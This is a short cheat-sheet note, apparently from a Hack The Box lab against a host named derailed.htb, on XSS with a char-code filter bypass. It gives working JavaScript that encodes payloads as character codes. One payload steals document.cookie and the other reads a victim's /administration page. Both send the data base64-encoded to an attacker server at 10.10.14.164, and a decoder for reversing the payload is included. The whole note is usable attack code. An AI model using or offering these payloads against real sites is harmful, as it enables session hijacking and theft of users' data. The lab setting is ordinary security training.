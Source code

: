 
XSS cookie stealing using charcode bypass:
---
#xss #charcode #bypass #cookies 
```js
const attacker = `http://10.10.14.164/cb`;
const xssString = `var attacker = "${attacker}";
fetch(attacker + "?cb=" + encodeURI(btoa(document.cookie)));`
const payload = Array.from(xssString.split(''), ch => ch.charCodeAt(0)).join(',');
console.log(payload);
```
Reverse the payload:
---
```js
console.log(String.fromCharCode(...(payload.split(','))));
```

```js
var url = "http://derailed.htb:3000/administration";
var attacker = "http://10.10.14.164/cb";
const xssString = `
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch("${attacker}" + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', "${url}", true);
xhr.send(null);`
const payload = Array.from(xssString.split(''), ch => ch.charCodeAt(0)).join(',');
```